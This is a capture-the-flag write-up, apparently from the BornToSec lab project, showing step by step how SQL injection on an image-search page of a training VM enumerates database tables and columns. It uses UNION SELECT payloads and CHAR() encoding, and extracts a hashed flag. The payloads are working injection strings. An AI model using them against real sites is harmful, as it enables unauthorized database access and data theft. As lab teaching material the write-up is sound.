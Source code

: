 # SQL Injection on Searchimg page

## Description 
SQL Injection (SQLi) is a web security vulnerability where attackers manipulate SQL queries executed by an application to gain unauthorized access to a database. This can lead to data theft, modification, or even full control of the database server.

## BornToSec
Here on the search searchimg page you have an input which is asking for an ID. If you input an id and submit, you will see in the URL that the id is passed as a parameter. This is a good sign that the application is vulnerable to SQL Injection.

To get all the images we need to give a conditions to the query that will always be true. We can do this by using the OR 1=1 statement. This will return all the images in the database.

```
http://10.11.249.222/index.php?page=searchimg&Submit=Submit&id=5 OR 1=1
```

With this, you will get the list of every images in the table.

Then what we want is to get more informations about the image table and the columns but to do this we first need to discover the name of the table.

```
http://10.11.249.222/index.php?page=searchimg&Submit=Submit&id=5 UNION SELECT NULL, table_name FROM information_schema.tables
```

With this query, we are able to get the name of every tables in the database. We can see that the table list_images is present.

We would now wanted to get the columns of the list_images table by using the following query.

```
http://10.11.249.222/index.php?page=searchimg&Submit=Submit&id=5 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='list_images'
```

As you see, we are not able to send string in the query so we need to use the CHAR function to send the table name.

l → 108
i → 105
s → 115
t → 116
_ → 95
i → 105
m → 109
a → 97
g → 103
e → 101
s → 115

CHAR(108, 105, 115, 116, 95, 105, 109, 97, 103, 101, 115)

Now we can get the columns of the list_images table.

```
http://10.11.249.222/index.php?page=searchimg&Submit=Submit&id=10 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(108, 105, 115, 116, 95, 105, 109, 97, 103, 101, 115)
```

Once we have the columns, we can get the data of the list_images table. We can see columns id, url, title, comment.

The one that is interesting is comment. We can get the data of this column by using the following query.

```
http://10.11.249.222/index.php?page=searchimg&Submit=Submit&id=5 UNION SELECT id, comment FROM list_images
```

With this query, we are able to get the comment of the image with the id 5. We can see that the comment of the user with id=5 is "If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46".

Now we can use a md5 decrypter to get the word albatroz.
Then we use sha256 on albatroz and we get the flag.


